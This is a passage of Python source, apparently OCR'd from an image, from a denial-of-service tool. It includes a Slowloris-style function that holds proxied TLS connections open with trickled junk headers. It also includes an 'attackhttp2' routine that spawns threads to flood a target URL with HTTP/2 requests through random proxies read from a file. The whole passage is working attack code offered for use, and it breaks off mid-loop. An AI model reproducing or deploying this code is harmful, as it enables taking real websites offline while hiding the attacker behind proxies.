     req += "Sec-Fetch-Mode: navigate\r\n"
    req += "Sec-Fetch-Dest: document\r\n"
    req += "Upgrade-Insecure-Requests: 1\r\n"
    req += "Connection: Keep-Alive\r\n\r\n"
    while time.time() < timelol:
        try:
            s = socks.socksocket()
            s.connect((str(urlparse(url).netloc), int(443)))
            s.set_proxy(socks.SOCKS5, str(proxy[0]), int(proxy[1]))
            ctx = ssl.SSLContext()
            s = ctx.wrap_socket(s, server_hostname=urlparse(url).netloc)
            s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000)).encode("utf-8"))
            s.send("User-Agent: {}\r\n".format(random.choice(useragents)).encode("utf-8"))
            s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5").encode("utf-8"))
            s.send(("Connection:keep-alive").encode("utf-8"))
            while True:
                time.sleep(14)
                s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
        except:
            s.close()
            Launchslow()
#http2
def attackhttp2(url, timer, threads):
    for i in range(int(threads)):
        threading.Thread(target=Launchhttp2, args=(url, timer)).start()

def Launchhttp2(url, timer):
        timelol = time.time() + int(timer)
        while time.time() < timelol:
            headers = {
            'User-Agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 10_3_3 like Mac OS X) AppleWebKit/603.3.8 (KHTML, like Gecko) Mobile/14G60 MicroMessenger/6.5.18 NetType/WIFI Language/en',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Accept-Language': 'tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7',
            'Accept-Encoding': 'deflate, gzip;q=1.0, *;q=0.5',
            'Cache-Control': 'no-cache',
            'Pragma': 'no-cache',
            'Connection': 'keep-alive',
            'Upgrade-Insecure-Requests': '1',
            'Sec-Fetch-Dest': 'document',
            'Sec-Fetch-Mode': 'navigate',
            'Sec-Fetch-Site': 'same-origin',
            'Sec-Fetch-User': '?1',
 #           'TE': 'trailers',
            }
            proxfile1 = 'http.txt'
            prox1 = list(map(lambda x:x.strip(),open(proxfile1)))
            value = random.randint(65565, 314159)
            proxy1 = random.choice(prox1)
            proxies = ['http://'+proxy1]
  #          timeout = httpx.Timeout(None, connect=None)
    #        limits = httpx.Limits(max_keepalive_connections=None, max_connections=None) 
            with httpx.Client(http2=True,proxies=random.choice(proxies),headers=headers,trust_env=False) as client:
                try:
                    while True:
                        for _ in range(400):